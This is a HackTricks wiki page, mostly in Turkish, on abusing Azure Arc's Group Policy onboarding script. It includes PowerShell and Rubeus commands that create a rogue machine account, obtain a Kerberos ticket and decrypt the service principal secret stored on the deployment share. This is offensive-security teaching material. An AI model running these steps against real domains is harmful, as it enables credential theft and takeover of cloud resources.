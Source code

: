 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc, yeni iç sunucuların (katılmış alan sunucuları) Azure Arc'a Grup Politika Nesnesi yöntemiyle entegrasyonuna olanak tanır. Bunu kolaylaştırmak için Microsoft, onboarding prosedürünü başlatmak için gerekli olan bir dağıtım araç seti sağlar. ArcEnableServerGroupPolicy.zip dosyasının içinde şu betikler bulunur: DeployGPO.ps1, EnableAzureArc.ps1 ve AzureArcDeployment.psm1.

DeployGPO.ps1 betiği çalıştırıldığında, aşağıdaki işlemleri gerçekleştirir:

1. Yerel alanda Azure Arc Sunucuları Onboarding GPO'sunu oluşturur.
2. EnableAzureArc.ps1 onboarding betiğini, onboarding süreci için oluşturulan belirlenen ağ paylaşımına kopyalar; bu paylaşım ayrıca Windows yükleyici paketini de içerir.

Bu betiği çalıştırırken, sistem yöneticileri iki ana parametre sağlamalıdır: **ServicePrincipalId** ve **ServicePrincipalClientSecret**. Ayrıca, alan, paylaşımı barındıran sunucunun FQDN'si ve paylaşım adı gibi diğer parametreler de gereklidir. Kiracı kimliği, kaynak grubu ve diğer gerekli bilgiler gibi daha fazla ayrıntı da betiğe sağlanmalıdır.

Belirtilen paylaşımda AzureArcDeploy dizininde DPAPI-NG şifrelemesi kullanılarak şifrelenmiş bir gizli anahtar oluşturulur. Şifrelenmiş gizli anahtar, encryptedServicePrincipalSecret adlı bir dosyada saklanır. Bunun kanıtı, DeployGPO.ps1 betiğinde, şifrelemenin $descriptor ve $ServicePrincipalSecret girdileri ile ProtectBase64 çağrılarak gerçekleştirildiği yerdir. Tanımlayıcı, Alan Bilgisayarı ve Alan Denetleyici grup SID'lerini içerir ve bu, ServicePrincipalSecret'ın yalnızca Alan Denetleyicileri ve Alan Bilgisayarları güvenlik grupları tarafından şifresinin çözülebileceğini garanti eder; bu, betik yorumlarında belirtilmiştir.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Aşağıdaki koşullara sahibiz:

1. İç ağa başarıyla sızdık.
2. Active Directory içinde bir bilgisayar hesabı oluşturma veya kontrol etme yeteneğine sahibiz.
3. AzureArcDeploy dizinini içeren bir ağ paylaşımını keşfettik.

AD ortamında bir makine hesabı elde etmenin birkaç yöntemi vardır. En yaygın olanlardan biri makine hesabı kotasını istismar etmektir. Diğer bir yöntem, savunmasız ACL'ler veya çeşitli diğer yanlış yapılandırmalar aracılığıyla bir makine hesabını tehlikeye atmaktır.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Bir makine hesabı elde edildikten sonra, bu hesapla kimlik doğrulamak mümkündür. Ya netonly bayrağı ile runas.exe komutunu kullanabiliriz ya da Rubeus.exe ile pass-the-ticket yöntemini kullanabiliriz.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Bellek içinde bilgisayar hesabımız için TGT'ye sahip olarak, hizmet ilkesi gizli anahtarını şifre çözmek için aşağıdaki betiği kullanabiliriz.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatif olarak, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) kullanabiliriz.

Bu noktada, şifrelenmişServicePrincipalSecret dosyasıyla aynı ağ paylaşımında saklanan ArcInfo.json dosyasından Azure'a bağlanmak için gereken kalan bilgileri toplayabiliriz. Bu dosya, TenantId, servicePrincipalClientId, ResourceGroup gibi ayrıntıları içerir. Bu bilgilerle, Azure CLI kullanarak ele geçirilmiş hizmet ilkesi olarak kimlik doğrulaması yapabiliriz.

## Referanslar

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
